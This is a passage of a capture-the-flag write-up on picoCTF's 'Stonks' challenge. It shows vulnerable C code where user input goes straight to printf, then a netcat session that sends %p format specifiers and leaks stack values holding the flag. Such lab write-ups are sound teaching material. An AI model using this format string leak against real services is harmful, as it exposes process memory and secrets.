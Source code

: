```c
        printf("Goodbye!\n");

        exit(0);
}
```

We are not provided with any binary file.

This is another format string challenge. Take a look at these lines of code on the `buy_stonks` function:

```c
        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);
```

We need to know where the contents of `api` are. I, again, just put a bunch of `%p` and see what happens:

```
nc mercury.picoctf.net 27912
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,
Buying stonks with token:
0x8a3b450,0x804b000,0x80489c3,0xf7f60d80,0xffffffff,0x1,0x8a39160,0xf7f6e110,0xf7f60dc7,(nil),0x8a3a180,0x1,0x8a3b430,0x8a3b450,0x6f636970,0x7b465443,0x306c5f49,0x345f7435,0x6d5f6c6c,0x306d5f79,0x5f79336e,0x32666331,0x30613130,0xffda007d,0xf7f9baf8,0xf7f6e440,0xf8bb5a00,0x1,(nil),0xf7dfdce9,
Portfolio as of Fri Aug  2 05:05:33 UTC 2024


1 shares of SXD
1 shares of NJF
1 shares of CN
4 shares of HXQ
3 shares of UR
81 shares of ONKL
188 shares of F
451 shares of G
327 shares of ANLB
175 shares of U
189 shares of K
Goodbye!
```
